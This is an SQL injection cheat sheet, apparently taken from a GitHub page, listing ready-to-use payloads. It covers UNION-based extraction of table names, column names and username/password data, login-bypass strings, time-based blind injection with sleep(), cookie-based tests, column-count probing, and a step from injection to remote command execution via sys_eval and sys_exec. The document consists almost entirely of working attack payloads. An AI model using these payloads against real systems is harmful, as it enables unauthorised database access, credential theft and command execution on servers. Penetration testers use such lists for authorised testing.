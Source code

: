 ```
' union select 1,2,3,4,5 -- -

' union select 1,2,3,table_schema,table_name from information_schema.tables -- - >> To fetch database name with table name

' union select 1,2,column_name,null,null from information_schema.columns where table_schema = 'database_name' and table_name = 'table_name' -- - >> To fetch column name from specific table

' union select 1,2,username,password,null from database_name.table_name -- >> To fetch info from specific column

' union select 1,2,3,4,sys_eval('whoami')-- - >> SQLi to RCE. sys_exec('touch hacked.txt')
```
### Determining SQLi Vulnerability & Login Bypass
```sql
1 || 1=1-- -
1 or 1=1-- -
1' or 1=1-- -
1' or 'abc'='abc'-- -
1') or 1=1-- -
1' or 1=1-- -%00
' or '1'='1
1' or 1=1;-- -
' union select "pass" as password from <db_name> where '1'='1
```
### Parameter Testing for Time-Based Blind SQL Injection
```sql
or sleep(5)

(select*from(select(sleep(5)))a)

0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z

1'XOR(if(now()=sysdate(),sleep(3),0))OR' >> PATH

(select*from(select(sleep(3)))a)

(SELECT%20(CASE%20WHEN%20(1=1)%20THEN%20SLEEP(10)%20ELSE%202%20END))
```
### Cookie testing 
```sql
' and 1=1-- - >> Conditional response (Boolean)

' || (select ' ') || ' >> Conditional error

' ||  (SELECT SLEEP(10))-- - >> Time delays

(select*from(select(sleep(3)))a)
```
### Determining column numbers
```sql

' order by 1-- -

' union select null, null from dual-- - >> Oracle

' union select null, null-- - >> Non Oracle

union select null, null >> Without quote in vulnerable parameter

and 1=2 union select null, null >> Without quote in vulnerable parameter
```